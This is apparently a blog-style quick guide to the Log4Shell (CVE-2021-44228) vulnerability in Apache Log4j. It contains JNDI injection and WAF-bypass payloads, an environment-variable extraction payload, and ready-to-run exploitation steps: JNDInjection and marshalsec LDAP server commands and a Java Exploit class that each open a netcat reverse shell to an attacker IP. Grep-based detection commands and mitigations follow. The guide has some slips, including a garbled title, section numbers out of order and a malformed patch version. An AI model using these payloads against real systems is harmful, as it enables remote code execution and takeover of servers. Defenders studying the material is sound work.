


log4hshell - Quick Guide
<%- toc(page.content) %>
0x00 Introduction
CVE-2021-44228 (a.k.a. log4shell) is a Remote Code Execution vulnerability in the Apache Log4j library, a Java-based logging tool widely used in applications around the world. This vulnerability allows an attacker who can control log messages to execute arbitrary code loaded from attacker-controlled servers — and we anticipate that most apps using the Log4j library will meet this condition.
Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled. From log4j 2.15.0, this behavior has been disabled by default. Affected versions are 2.0 <= Apache log4j <= 2.14.1
0x01 How to works

- An attacker inserts the JNDI lookup/payload in a anywhere of request that is likely to be logged. for instance:
${jndi:ldap://domain.com/j}) - The payload is passed to log4j for logging.
- Log4j interpolates the string and queries the malicious ldap server.
- The ldap server responds with directory information that contains the malicious java class.
- Java deserializes or download the malicious java class and execute it.
0x02 Simple DNS Log Monitor Services
0x04 Waf Bypass & Data Extraction Payloads
1 | ${jndi:ldap://domain.com/j} |
The following payloads can be used for data extraction if you got ping back but it’s non exploitable.
1 | ${jndi:ldap://${env:user}.domain.com/exp} |
0x03 Exploitation
There are a lot diffirent way for exploitation. I will only share two.
The following command starts rmiserver,ldap server. It generates jndi links. These links serves java class for performing commands that spesified at C parameter. A is your server-ip that you run ldap&rmi.
java -jar JNDInjection.jar -C "nc 192.168.1.XX 1337 -e /bin/sh" -A "192.168.1.XX"
This way is a little dirty. The following command starts a ldap server and forwarding requests to spesified url. Because of this you should start a web server and serve the malicious java class over the server. To do this quicly you can use python http.server module. note that the java class must be compatible/supports target’s jdk version.
java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer "http://192.168.1.XX:1337/#Exploit"python.exe -m http.server 1337
- a simple example of java exploit to linux systems. (compile with javac)
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18public class Exploit {
public Exploit() {}
static {
try {
Runtime.getRuntime().exec("nc 192.168.1.105 1337 -e /bin/sh");
/* other os
String[] cmd = {"cmd.exe", "/c", "calc.exe"};
String[] cmd = {"open","/System/Applications/Calculator.app"};
*/
}catch (Exception e){
e.printStackTrace();
}
}
public static void main(String[] args) {
Exploit e = new Exploit();
}
}
0x05 Detection
a bash command for quick detection log4shell attempts. It’s involves some waf bypass payloads too. It’s matched all payload that shared by sans in here.
1
find / -name "*.log" -exec grep "\${jndi:ldap\|\${\${::-j}\|\${jndi:rmi\|\${\${lower:jndi}\|\${\${lower\:j}\${lower:n}\|\${\${lower:j}\${upper:n}\|\${\${lower:\${lower:jndi}}:" {} -n -H --color \;
a bash command for quick detection log4shell attempts in compressed files.
1
sudo find / -name \*.gz -print0 | xargs -0 zgrep -E -i '\$(\{|%7B)jndi:(ldap[s]?|rmi|dns|nis|iiop|corba|nds|http):/[^\n]+'
0x06 Test it in your vm:
Vulnerable App: log4shell-vuln-app
0x07 burp-extansions
0x08 Mitigations
- upgrade to log4j-2.1.50.rc2. or
- in previous releases (>2.10) this behavior can be mitigated by setting system property
log4j2.formatMsgNoLookups=trueor it can be mitigated in prior releases (<2.10) by removing the JndiLookup class from the classpath. (example:zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class)
0X09 References
big shout out to;
lunasec, fastly.com, cyberkendra.com, govcert.ch, @tangxiaofeng7, @christophetd,@shutingrz, @bugbountynights, @BountyOverflow, @ymzkei5, @Neo23x0
0x10 Why this thumbnail?
Seraph: The Oracle has many enemies, I had to be sure.
Neo: Of what?
Seraph: That you were The One.
Neo: You could’ve just asked.
Seraph: You do not truly know someone until you fight them.